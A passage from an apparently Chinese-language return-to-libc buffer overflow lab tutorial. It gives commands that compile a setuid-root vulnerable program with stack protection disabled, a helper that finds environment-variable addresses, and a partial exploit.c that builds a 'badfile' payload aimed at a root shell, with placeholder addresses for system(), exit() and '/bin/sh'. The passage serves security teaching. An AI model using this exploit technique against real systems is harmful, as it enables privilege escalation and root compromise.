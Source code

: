 ```
sudo su

gcc -m32 -g -z noexecstack -fno-stack-protector -o retlib retlib.c

chmod u+s retlib

exit 
```

或者也可以“gcc -m32 -g -fno-stack-protector -o retlib retlib.c”，默认使用“栈不可执行”保护。

GCC 编译器有一种栈保护机制来阻止缓冲区溢出，所以我们在编译代码时需要用 –fno-stack-protector 关闭这种机制。

上述程序有一个缓冲区溢出漏洞，它先从一个叫“badfile”的文件里把 40 字节的数据读取到 12 字节的 buffer，引起溢出。fread()函数不检查边界所以会发生溢出。由于此程序为 SET-ROOT-UID 程序，如果一个普通用户利用了此缓冲区溢出漏洞，他有可能获得 root shell。应该注意到此程序是从一个叫做“badﬁle”的文件获得输入的，这个文件受用户控制。现在我们的目标是为“badﬁle”创建内容，这样当这段漏洞程序将此内容复制进它的缓冲区，便产生了一个 root shell 。

我们还需要用到一个读取环境变量的程序：

```
/* getenvaddr.c */
include <stdio.h>
include <stdlib.h>
include <string.h>

int main(int argc, char const *argv[])
{
 char *ptr;

 if(argc < 3){
    printf("Usage: %s <environment var> <target program name>\n", argv[0]);
    exit(0);
    }
 ptr = getenv(argv[1]);
 ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;
 printf("%s will be at %p\n", argv[1], ptr);
 return 0;
} 
```

编译一下：

```
gcc -m32 -o getenvaddr getenvaddr.c 
```

### 3.3 攻击程序

把以下代码保存为“exploit.c”文件，保存到 /tmp 目录下。代码如下：

```
/* exploit.c */
include <stdlib.h>
include <stdio.h>
include <string.h>
int main(int argc, char **argv)
{
 char buf[40];
 FILE *badfile;
 badfile = fopen(".//badfile", "w");

 strcpy(buf, "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90");// nop 24 times

 *(long *) &buf[32] =0x11111111; // "//bin//sh"
 *(long *) &buf[24] =0x22222222; // system()
 *(long *) &buf[36] =0x33333333; // exit()
 fwrite(buf, sizeof(buf), 1, badfile);
```